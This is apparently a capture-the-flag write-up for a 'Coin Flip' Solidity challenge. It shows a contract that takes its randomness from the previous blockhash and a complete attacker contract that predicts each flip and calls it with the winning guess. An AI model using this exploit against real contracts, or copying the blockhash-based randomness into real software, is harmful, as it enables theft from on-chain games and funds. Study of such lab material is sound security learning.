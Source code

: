 # Coin Flip

More help since I'm new to the Remix IDE (Compiling, running and deployment)

```solidity
   contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

We can see the contract uses the *blockhash* to generate pseudo-randomness. We can exploit this by calculating the *blockValue* in Remix IDE, which is the same as running it locally.

With the *blockValue* obtained locally we can just call the *flip* method through an interface with the correct side.

```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  interface CoinFlip{
    function flip(bool _guess) external returns(bool);
  }

  contract hackedCoinFlip {

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip originalCoinFlip;

    constructor(address _addr){
      originalCoinFlip = CoinFlip(_addr);
    }

    function hackFlip() public {
      uint256 blockValue = uint256(blockhash(block.number-1));
      uint256 coinFlip = blockValue / FACTOR;
      bool side = coinFlip == 1 ? true : false;
      originalCoinFlip.flip(side);
    }
}
```